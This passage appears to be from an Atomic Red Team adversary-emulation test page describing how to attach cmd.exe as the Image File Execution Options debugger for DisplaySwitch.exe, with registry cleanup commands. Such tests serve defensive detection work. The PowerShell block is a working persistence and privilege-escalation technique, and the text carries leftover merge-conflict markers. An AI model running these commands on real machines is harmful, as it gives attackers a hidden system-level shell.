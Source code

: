 #### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe" /v Debugger /f
```

<<<<<<< HEAD




=======
>>>>>>> parent of 511bb87... Add Dependencies section to test Yaml and support to use them in the PS execution framework (#772)
<br/>
<br/>

## Atomic Test #6 - Attaches Command Prompt As Debugger To Process - DisplaySwitch
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | DisplaySwitch.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\DisplaySwitch.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\DisplaySwitch.exe" /v Debugger /f
```

<<<<<<< HEAD
